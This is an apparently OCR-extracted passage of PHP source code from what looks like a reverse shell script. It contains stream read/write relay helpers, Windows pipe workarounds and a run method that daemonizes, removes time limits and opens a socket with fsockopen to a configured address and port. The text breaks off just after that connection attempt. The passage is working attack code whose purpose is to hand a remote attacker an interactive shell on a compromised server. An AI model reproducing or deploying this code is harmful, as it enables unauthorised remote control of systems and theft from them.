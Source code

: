 ```php
        @set_time_limit(0); // do not impose the script execution time limit
        @umask(0); // set the file/directory permissions - 666 for files and 777 for directories
    }
    private function dump($data) {
        $data = str_replace('<', '&lt;', $data);
        $data = str_replace('>', '&gt;', $data);
        echo $data;
    }
    private function read($stream, $name, $buffer) {
        if (($data = @fread($stream, $buffer)) === false) { // suppress an error when reading from a closed blocking stream
            $this->error = true;                            // set global error flag
            echo "STRM_ERROR: Cannot read from {$name}, script will now exit...\n";
        }
        return $data;
    }
    private function write($stream, $name, $data) {
        if (($bytes = @fwrite($stream, $data)) === false) { // suppress an error when writing to a closed blocking stream
            $this->error = true;                            // set global error flag
            echo "STRM_ERROR: Cannot write to {$name}, script will now exit...\n";
        }
        return $bytes;
    }
    // read/write method for non-blocking streams
    private function rw($input, $output, $iname, $oname) {
        while (($data = $this->read($input, $iname, $this->buffer)) && $this->write($output, $oname, $data)) {
            if ($this->os === 'WINDOWS' && $oname === 'STDIN') { $this->clen += strlen($data); } // calculate the command length
            $this->dump($data); // script's dump
        }
    }
    // read/write method for blocking streams (e.g. for STDOUT and STDERR on Windows OS)
    // we must read the exact byte length from a stream and not a single byte more
    private function brw($input, $output, $iname, $oname) {
        $fstat = fstat($input);
        $size = $fstat['size'];
        if ($this->os === 'WINDOWS' && $iname === 'STDOUT' && $this->clen) {
            // for some reason Windows OS pipes STDIN into STDOUT
            // we do not like that
            // we need to discard the data from the stream
            while ($this->clen > 0 && ($bytes = $this->clen >= $this->buffer ? $this->buffer : $this->clen) && $this->read($input, $iname, $bytes)) {
                $this->clen -= $bytes;
                $size -= $bytes;
            }
        }
        while ($size > 0 && ($bytes = $size >= $this->buffer ? $this->buffer : $size) && ($data = $this->read($input, $iname, $bytes)) && $this->write($output, $oname, $data)) {
            $size -= $bytes;
            $this->dump($data); // script's dump
        }
    }
    public function run() {
        if ($this->detect() && !$this->daemonize()) {
            $this->settings();

            // ----- SOCKET BEGIN -----
            $socket = @fsockopen($this->addr, $this->port, $errno, $errstr, 30);
            if (!$socket) {
                echo "SOC_ERROR: {$errno}: {$errstr}\n";
            } else {
```